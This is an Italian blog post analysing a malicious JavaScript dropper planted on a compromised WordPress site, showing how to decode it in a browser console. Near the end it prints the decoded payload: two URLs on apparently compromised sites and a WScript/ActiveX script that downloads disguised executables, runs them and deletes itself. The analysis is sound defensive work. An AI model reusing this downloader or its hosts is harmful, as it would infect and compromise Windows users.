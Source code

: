 ```yaml
---
layout: post
title: "Decifrare semplici Javascript malevoli"
promotion: 
modified: 
featured: false
category: [post]
tags: [javascript, malware, evilcode]
image:
  feature: code.jpg
  credit: Christiaan Colen
  creditlink: https://flic.kr/p/ydTDpb
comments: true
share: true
---
```

Compromettere un sito, può essere una cosa semplice. Compromettere un sito
basato su [WordPress](https://wordpress.org) può essere una cosa molto
semplice. 

Semplicemente chi usa [WordPress](https://wordpress.org) vuole qualcosa di
semplice e veloce per essere online il prima possibile. Spesso per questo
genere di progetti, il budget a disposizione è limitato e, di conseguenza, temi
come _hardening_ o _penetration test_ non trovano spazio nelle voci di
bilancio.

Bucare un sito in WordPress, per distribuire codice malevolo è una pratica abbastanza comune. E' quello che ha notato un amico, ieri durante un test.

Ha trovato [questo codice JavaScript](http://pastebin.com/AjyQ8wwC),
all'interno di un sito. Dedicato ad altre attività sul sito, ha chiesto una
mano per decifrare al volo quello che, a prima vista, era un codice JavaScript
un po' "offuscato".

In questo caso la struttura del codice era abbastanza chiara. Nella prima
variabile, _links_, dovevano esserci delle url, probabilmente afferenti ad un
secondo _stage_ di questo malware. Nella seconda variabile, _code_, doveva
esserci il codice vero e proprio del malware ed in coda la coppia formata dalla
routine per mettere in chiaro _links_ e _code_ ed il codice per innescare tutto
il processo.

{% highlight js %}
function d( c )
{
    c = c.split( '' );
    for( var i = 0; i < c.length; i += 3 ) {
        c[ i ] = '';
    }
    return c.join( '' );
}
{% endhighlight %}

Come lo possiamo mettere in chiaro per una successiva analisi? Semplice. Ci
serve un browser e la console con gli strumenti di sviluppo.

![Il nostro tool di deobfuscation]({{site.url}}/assets/images/js_open_web_console.png)

Una volta qui, la prima cosa che dobbiamo fare è dichiarare la routine di
decifratura. La funzione _d()_ in questo caso.

![Dichiaro d()]({{site.url}}/assets/images/js_declare_decrypt_routine.png)

Incolliamo poi, all'interno della console, le due variabili _links_ e _code_
che ci interessa mettere in chiaro. Attenzione, poiché stiamo parlando con
l'interprete JavaScript del browser, dobbiamo incollare l'intera dichiarazione
della variabile, in modo che sia sintatticamente corretta.

![Dichiaro le due variabili]({{site.url}}/assets/images/js_paste_encrypted_strings.png)

A questo punto, il gioco è fatto. Basta invocare la nostra routine di
decifratura, _d()_, sulle variabili _links_ e _code_ ed abbiamo il codice dle
malwar in chiaro.

![Decifro le stringhe]({{site.url}}/assets/images/js_decrpyt_strings.png)

_Voilà_, [decifrato](http://pastebin.com/mUt43QTb)

Questi i link contenenti il payload da scaricare sul browser della vittima:

{%highlight js%}
"var links = ["http://www.stageportieri.it/wp/P330494.png","http://www.starcrossedgdr.altervista.org/pages/im/P0003939.png"];"
{%endhighlight%}

Questo il codice malevolo:

{%highlight js%}
"var ws = new ActiveXObject( "WScript.Shell" );if( ws.Exec( "ping" ).StdOut.ReadAll().match( /ping/ ) ) {    var obj = new ActiveXObject( "MSXML2.XMLHTTP" );    var File = WScript.CreateObject( "Scripting.FileSystemObject" );    var temp = File.GetSpecialFolder( 2 );    function genFileName()    {        return "/" + Math.round( Math.random() * 999999999 ) + ".exe";    }    function run( filename )    {        var ws = new ActiveXObject( "WScript.Shell" );        ws.Run( filename, 1, 0 );    }    function saveFile( body, filename )    {        Stream.Open();        Stream.Type = 1;        Stream.Write( body );        Stream.Position = 0;        Stream.SaveToFile( filename, 2 );        Stream.Close();    }    function deleteFile( filename )    {        if( File.FileExists( filename ) ) {            File.DeleteFile( filename );        }    }    function suicide()    {        deleteFile( WScript.ScriptFullName )    }    var Stream = new ActiveXObject( "ADODB.Stream" );    for( var i = 0; i < links.length; i++ ) {        var filename = temp + genFileName();        obj.Open( "GET", links[ i ], false );        obj.Send();        if( obj.Status == 200 ) {            try {                saveFile( obj.ResponseBody, filename );                run( filename );                done = true;            }            catch( err ) {            }        }    }    suicide();}"
{% endhighlight %}

Analizzandolo, abbiamo un codice che vuole creare un oggetto ActiveX, quindi un
codice pensato per colpire vittimeWindows con Internet Explorer. I due link,
probabilmente piazzati lì dopo aver compromesso anche le macchine che li
ospitano, non sono ovviamente immagini, ma sono due file eseguibili.

Il codice, cerca di scaricarli dalla rete e li lancia in esecuzione. Purtroppo
nessuno dei due file era disponibile al momento della scrittura di questo post,
quindi niente analisi del codice della fase 2.

Enjoy it!
